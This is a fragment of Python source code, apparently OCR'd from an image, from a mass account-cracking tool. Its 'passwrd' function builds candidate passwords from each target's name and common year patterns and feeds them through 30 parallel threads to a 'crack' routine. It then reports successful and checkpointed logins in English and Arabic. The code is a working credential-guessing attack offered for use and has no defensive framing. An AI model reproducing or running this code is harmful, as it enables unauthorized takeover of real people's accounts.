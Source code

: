 def passwrd():
	
	
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+frs)
					pwv.append(frs+' '+frs)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'123456')
					pwv.append('20202020')
					pwv.append('20212021')
					pwv.append('20222022')
					pwv.append('20232023')
					pwv.append('19901990')
					pwv.append('19801980')
					pwv.append('20042004')
					pwv.append('20052002')
					pwv.append('19941994')
					pwv.append('19951995')
					pwv.append('19961996')
					pwv.append('19971997')
					pwv.append('19981998')
					pwv.append('19991999')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append('20202020')
					pwv.append('20212021')
					pwv.append('20222022')
					pwv.append('20232023')
					pwv.append('19901990')
					pwv.append('19801980')
					pwv.append('20042004')
					pwv.append('20052002')
					pwv.append('19941994')
					pwv.append('19951995')
					pwv.append('19961996')
					pwv.append('19971997')
					pwv.append('19981998')
					pwv.append('19991999')
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
	print('')
	cetak(nel('\t[cyan] - Done • تم انتهاء الصيد'))
	print(f'[{b}•{x}]{h} OK : {h}%s '%(ok))
	print(f'{x}[{b}•{x}]{k} CP : {k}%s{x} '%(cp))
	print('')
	print('- Ask • هل تريد العودة الى القائمة ( Y/t ) ? ')
	woi = input('- Chose - لختار : ')